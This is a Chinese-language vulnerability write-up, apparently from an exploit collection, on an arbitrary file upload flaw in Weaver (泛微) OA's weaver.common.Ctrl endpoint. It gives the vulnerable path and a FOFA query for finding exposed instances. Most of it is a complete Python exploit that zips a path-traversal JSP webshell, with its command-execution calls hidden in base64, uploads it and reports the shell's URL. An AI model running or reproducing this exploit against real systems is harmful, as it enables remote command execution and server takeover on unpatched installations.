


泛微OA weaver.common.Ctrl 任意文件上传漏洞¶
漏洞描述¶
泛微OA weaver.common.Ctrl 存在任意文件上传漏洞，攻击者通过漏洞可以上传webshell文件控制服务器。 参考阅读：
漏洞影响¶
泛微OA
网络测绘¶
app="泛微-协同办公OA"
漏洞复现¶
存在漏洞的路径为
/weaver/weaver.common.Ctrl/.css?arg0=com.cloudstore.api.service.Service_CheckApp&arg1=validateApp
请求包为

使用POC文件上传

漏洞POC¶
import zipfile
import random
import sys
import requests
def generate_random_str(randomlength=16):
random_str = ''
base_str = 'ABCDEFGHIGKLMNOPQRSTUVWXYZabcdefghigklmnopqrstuvwxyz0123456789'
length = len(base_str) - 1
for i in range(randomlength):
random_str += base_str[random.randint(0, length)]
return random_str
mm = generate_random_str(8)
webshell_name1 = mm+'.jsp'
webshell_name2 = '../../../'+webshell_name1
def file_zip():
shell = """<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="sun.misc.BASE64Decoder" %>
<%
if(request.getParameter("cmd")!=null){
BASE64Decoder decoder = new BASE64Decoder();
Class rt = Class.forName(new String(decoder.decodeBuffer("amF2YS5sYW5nLlJ1bnRpbWU=")));
Process e = (Process)
rt.getMethod(new String(decoder.decodeBuffer("ZXhlYw==")), String.class).invoke(rt.getMethod(new
String(decoder.decodeBuffer("Z2V0UnVudGltZQ=="))).invoke(null, new
Object[]{}), request.getParameter("cmd") );
java.io.InputStream in = e.getInputStream();
int a = -1;
byte[] b = new byte[2048];
out.print("
<pre>");
while((a=in.read(b))!=-1){
out.println(new String(b));
}
out.print("</pre>");
}
%>
""" ## 替换shell内容
zf = zipfile.ZipFile(mm+'.zip', mode='w', compression=zipfile.ZIP_DEFLATED)
zf.writestr(webshell_name2, shell)
def GetShell(urllist):
file_zip()
print('上传文件中')
urls = urllist + '/weaver/weaver.common.Ctrl/.css?arg0=com.cloudstore.api.service.Service_CheckApp&arg1=validateApp'
file = [('file1', (mm+'.zip', open(mm + '.zip', 'rb'), 'application/zip'))]
requests.post(url=urls,files=file,timeout=60, verify=False)
GetShellurl = urllist+'/cloudstore/'+webshell_name1
GetShelllist = requests.get(url = GetShellurl)
if GetShelllist.status_code == 200:
print('利用成功webshell地址为:'+GetShellurl)
else:
print('未找到webshell利用失败')
def main():
if (len(sys.argv) == 2):
url = sys.argv[1]
GetShell(url)
else:
print("python3 poc.py http://xx.xx.xx.xx")
if __name__ == '__main__':
main()